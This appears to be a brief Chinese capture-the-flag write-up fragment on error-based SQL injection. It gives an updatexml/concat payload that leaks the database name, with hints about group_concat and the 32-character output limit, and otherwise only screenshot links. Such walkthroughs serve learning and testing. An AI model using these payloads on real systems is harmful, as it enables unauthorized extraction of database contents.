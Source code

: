 ## 报错注入

updatexml(0x3a, concat(1,database()), 1)

![image-20250916103012557](assets/image-20250916103012557.png)

![image-20250916103300978](assets/image-20250916103300978.png)

接着查表：因为提示返回结果多于1行，所以加一个group_concat，注意位置

![image-20250916103811370](assets/image-20250916103811370.png)

只输出32字符，flag在后面

![image-20250916104002273](assets/image-20250916104002273.png)
